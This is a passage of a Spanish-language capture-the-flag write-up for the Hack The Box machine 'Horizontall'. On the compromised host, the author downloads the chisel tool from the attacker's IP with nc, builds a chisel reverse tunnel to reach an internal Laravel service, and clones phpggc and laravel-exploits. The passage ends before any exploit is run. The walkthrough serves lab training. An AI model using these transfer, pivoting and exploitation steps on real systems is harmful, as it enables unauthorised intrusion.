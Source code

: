 Y en la máquina víctima le decimos que se conecte al servidor levantado, espere 5 segundos por si algo y el resultado lo guarde con el nombre de `chisel`:

```bash
strapi@horizontall:/tmp/test$ nc -w 5 10.10.14.78 4435 > chisel
```

Esperamos yyyyyyyyy validamos integridad:

```bash
strapi@horizontall:/tmp/test$ md5sum chisel 
58037ef897ec155a03ea193df4ec618a  chisel
...
❱ md5sum chisel 
58037ef897ec155a03ea193df4ec618a  chisel
```

Perfecto, le damos permisos de ejecución y tamos listos para entablar la locura:

```bash
strapi@horizontall:/tmp/test$ chmod +x chisel
```

## Generamos <u>port-fortwarding</u> [📌](#fortwarding-laravel) {#fortwarding-laravel}

En la máquina de atacante ejecutamos el servidor que estará en escucha por un puerto, en mi caso por el puerto `1111`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_chisel_server.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y ahora hacemos que la máquina víctima sea el cliente que se conecte al servidor:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_strapiSH_chisel_client.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listones, lo que le dijimos es que se conecte al puerto `1111` de la dirección `10.10.14.78`, una vez se conecte a ese puerto, tome el contenido del servicio `8000` del localhost (`127.0.0.1`) y transforme nuestro puerto `8001` con el contenido del puerto `8000`, por lo que ahora debemos tener en nuestro puerto `8001` el servicio `Laravel`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374page8001localhost_fortwarding_laravel_DONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Perfectísimo, ahora sí, intentemos explotar esta vaina...

...

Descargamos `phpgcc`:

```bash
❱ git clone https://github.com/ambionics/phpggc
```

Y el **PoC**:

```bash
❱ git clone https://github.com/ambionics/laravel-exploits
```

```bash
❱ ls
laravel-exploits  phpgcc
```

